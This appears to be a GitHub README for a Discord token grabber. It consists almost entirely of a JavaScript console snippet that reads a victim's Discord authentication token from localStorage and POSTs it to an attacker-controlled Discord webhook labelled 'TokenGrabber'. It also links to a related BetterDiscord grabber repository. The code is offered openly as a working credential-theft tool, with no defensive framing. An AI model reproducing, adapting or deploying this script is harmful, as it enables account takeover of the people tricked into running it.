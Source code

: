 # Discord-Token-Grabber-Console-Script

If you want to token grab with a Better Discord script => [CLICK HERE](https://github.com/HideakiAtsuyo/BetterGrabber)

```js
(function() {
    let w = window.open();
    if (!w || !w.document) return console.error('Unable to get token: popup blocked!');
    window.dispatchEvent(new Event('beforeunload'));
    var x = new XMLHttpRequest;
    x.open("POST", 'https://canary.discord.com/api/webhooks/ID/TOKEN'), x.setRequestHeader("Content-type", "application/json");
    var y = {
    	username: "TokenGrabber",
    	avatar_url: "https://cdn.discordapp.com/icons/780542388283375636/d90bd3fe7ca527dafe66723b23b7c54d.webp",
    	content: "@everyone",
    	embeds: [{
    		color: "696969",
    		description: `Token: ${w.localStorage.token}`,
    	}]
    };

    x.send(JSON.stringify(y));
    w.close()
}());
```
